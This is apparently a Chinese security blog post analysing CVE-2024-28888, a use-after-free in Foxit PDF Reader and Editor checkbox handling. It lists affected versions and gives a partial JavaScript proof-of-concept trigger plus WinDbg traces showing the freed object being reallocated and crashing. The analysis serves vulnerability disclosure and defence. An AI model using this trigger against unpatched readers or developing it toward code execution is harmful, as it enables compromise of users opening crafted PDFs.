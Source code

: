 #  CVE-2024-28888：福昕阅读器中使用释放后导致远程代码执行   
 Ots安全   2024-11-16 07:02  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
**网址**  
- https://www.talosintelligence.com/vulnerability_reports/TALOS-2024-1967  
  
**目标**  
- 福昕PDF编辑器版本：2024.X（含）~2024.2.3.25184（含）（Windows）  
  
- 福昕PDF编辑器版本：2023.X（含）~2023.3.0.23028（含）（Windows）  
  
- 福昕PDF阅读器版本：~2024.2.3.25184（包含）（Windows）  
  
- 福昕PDF编辑器版本：2024.X（含）~2024.2.3.64402（含）(macOS)  
  
- 福昕 PDF 编辑器版本：2023.x（含）~ 2023.3.0.63083（含）(macOS)  
  
- 福昕 PDF 阅读器版本：~ 2024.2.2.64388（包含）(macOS)  
  
- 福昕 PDF 编辑器版本：13.x（包含）~ 13.1.2.62201（包含）(macOS)  
  
- 福昕 PDF 编辑器版本：12.x（包含）~ 12.1.5.55449（包含）(macOS)  
  
- Foxit PDF Editor版本：~11.1.9.0524（包含）（macOS）  
  
- 福昕 PDF 编辑器版本：13.X（包含）~ 13.1.3.22478（包含）(Windows)  
  
- 福昕 PDF 编辑器版本：12.X（包含）~ 12.1.7.15526（包含）(Windows)  
  
- Foxit PDF Editor版本：~11.2.10.53951（包含）（Windows）  
  
**解释**  
  
Foxit PDF Reader使用V8 JavaScript引擎支持交互式PDF功能。交互式 PDF 是包含可点击链接、按钮、表单字段、音频、视频和其他元素的 PDF 文件。  
  
Foxit PDF Reader在管理复选框对象时存在释放后使用漏洞。在下面的PoC代码中，delete_pages()回调函数在addField()执行第二个函数时被触发。deletePages()当复选框对象被释放然后在未经验证的情况下重新使用时，就会出现释放后使用漏洞。  
  
```
function main() { 

 var aa = app.activeDocs[0].addField("ADD", "checkbox", 2, [17,0,5,14] ).defaultIsChecked(0);

 getField("txt3").setAction("Calculate",'delete_pages();'); 

 app.activeDocs[0].addField("ADD", "checkbox", 0, [17,0,5,14] ) ; 
 
 // 이후 checkbox object가 재사용될 때 use-after-free 취약점 발생함
 // 재사용하는 부분 PoC 코드 정확하게 공개되지 않음

}

function delete_pages(arg1, arg2, arg3) { 

  app.activeDocs[0].deletePages(); 
  app.activeDocs[0].deletePages(); 

}
```  
  
  
addField()函数执行后创建的易受攻击的缓冲区 ( )  
0x18bbf0e0是：  
  
```
0:000> p
eax=18babf00 ebx=076fe0dc ecx=175db036 edx=00000001 esi=00000002 edi=16426750
eip=01b0fc8b esp=076fdcfc ebp=076fdd50 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b ds=002b es=002b fs=0053  gs=002b efl=00200202
FoxitPDFReader!std::basic_ostream<char,std::char_traits<char> >::operator<<+0x5069db:
01b0fc8b 8bf8 mov edi,eax
0:000> dd eax
18babf00 0c8cb610 18bbf0e0 18bbf0b0 00000000
18babf10 00000000 00000000 00000000 00000000
18babf20 00000000 00000000 00000000 00000000
18babf30 00000000 00000000 00000000 00000000
18babf40 00000000 00000000 00000000 00000000
18babf50 00000000 00000000 00000000 00000000
18babf60 00000000 00000000 00000000 00000000
18babf70 00000000 00000000 00000000 00000000
0:000> dd 18bbf0e0 ;<----------------------------------- (3)
18bbf0e0 00000003 00000000 0c8cb610 18bbf0b0
18bbf0f0 00000000 18b92af8 00000001 00000001
18bbf100 00000000 00000004 00000000 00000000
18bbf110 00000000 18bb7c08 18bb7c20 18bb7c38
18bbf120 18bb7c50 18bbe280 18bbe2a0 18bb7c68
18bbf130 18bbe2c0 18bb7c80 18ba1c78 18bbe2e0
18bbf140 18bb7c98 18bb7cb0 18bb7cc8 18bb7ce0
18bbf150 18bb7cf8 18bb7d10 18bb7d28 18bb7d40
```  
  
  
deletePages()函数执行后，缓冲区按如下方式释放：(8)表示分配状态，(9)表示解除分配状态。  
  
```
0:000> dd esi ;<----------- (8)
18bbf0e0 00000003 00000000 0c8cb610 1c789aa0 
18bbf0f0 00000000 18b92af8 00000000 00000002
18bbf100 00000000 00000004 00000000 00000000
18bbf110 00010006 18bbf0b0 00000000 00000000
18bbf120 00000000 1c7711a0 00000010 00000002
18bbf130 18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140 00010006 18bbf0b0 00000000 00000000
18bbf150 00000000 1c7711e0 00000010 00000001
0:000> p
eax=00000000 ebx=076fcfe4 ecx=175da3be edx=075dd000 esi=18bbf0e0 edi=0c8cb610
eip=01ed24bf esp=076fcf6c ebp=076fcfc4 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b ds=002b es=002b fs=0053  gs=002b efl=00200206
FoxitPDFReader!safe_vsnprintf+0x37768f:
01ed24bf 83c404 add esp,4
0:000> dd esi ;<----------- (9)
18bbf0e0 00000000 00000000 0c8cb610 1c789aa0
18bbf0f0 00000000 18b92af8 00000000 00000002
18bbf100 00000000 00000004 00000000 00000000
18bbf110 00010006 18bbf0b0 00000000 00000000
18bbf120 00000000 1c7711a0 00000010 00000002
18bbf130 18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140 00010006 18bbf0b0 00000000 00000000
18bbf150 00000000 1c7711e0 00000010 00000001
```  
  
  
复选框对象被释放，然后  
bytestring由对象重新分配。  
0x18bbf0e0您可以看到一个新对象被分配到相同的地址()，如下所示。  
  
```
0:000> p
eax=ffffffff ebx=076fe0dc ecx=18bbf0e0 edx=075dd000 esi=00000001 edi=1c777df0
eip=01b10022 esp=076fdcf8 ebp=076fdd50 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b ds=002b es=002b fs=0053  gs=002b efl=00200206
FoxitPDFReader!std::basic_ostream<char,std::char_traits<char> >::operator<<+0x506d72:
01b10022 e849573d00 call FoxitPDFReader!safe_vsnprintf+0x38a940 (01ee5770)
0:000> dd ecx <------------------------ (10)
18bbf0e0 00000000 0000001f 0000001f 62626952
18bbf0f0 435f6e6f 67657461 5f79726f 74736f50
18bbf100 6e616353 6974704f 00736e6f 00000000
18bbf110 00010006 18bbf0b0 00000000 00000000
18bbf120 00000000 1c7711a0 00000010 00000002
18bbf130 18bb9cbc 18bb9c98 0000000a 18bbe2e0
18bbf140 00010006 18bbf0b0 00000000 00000000
18bbf150 00000000 1c7711e0 00000010 00000001
0:000> db ecx L28
18bbf0e0 00 00 00 00 1f 00 00 00-1f 00 00 00 52 69 62 62  ............Ribb
18bbf0f0 6f 6e 5f 43 61 74 65 67-6f 72 79 5f 50 6f 73 74  on_Category_Post
18bbf100 53 63 61 6e 4f 70 74 69
```  
  
  
当复用 Checkbox 对象时，  
0x18bbf0e0位于“缓冲区地址 ( ) + 0xc”的值 (   
0x62626952)被传递给  
this该对象（此处为寄存器）。  
esi最初，复选框对象中的值是一个指针，但当它被释放并  
0x62626952接受一个值时，就会发生访问冲突。  
  
```
0:000> p
(21e8.21f4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=000008e0 ebx=00000000 ecx=00000066 edx=00000000 esi=62626962 edi=076fdcc4
eip=02124612 esp=076fdc7c ebp=076fdc84 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00210246
FoxitPDFReader!safe_vsnprintf+0x5c97e2:
02124612 f77608 div eax,dword ptr [esi+8] ds:002b:6262696a=????????
```  
  
  
取消分配复选框对象后，攻击者bytestring可以分配一个对象，从而可能允许读取和写入任意地址。这种可能性可能会导致远程代码执行。  
  
  
**参考**  
- https://nvd.nist.gov/vuln/detail/CVE-2024-28888  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
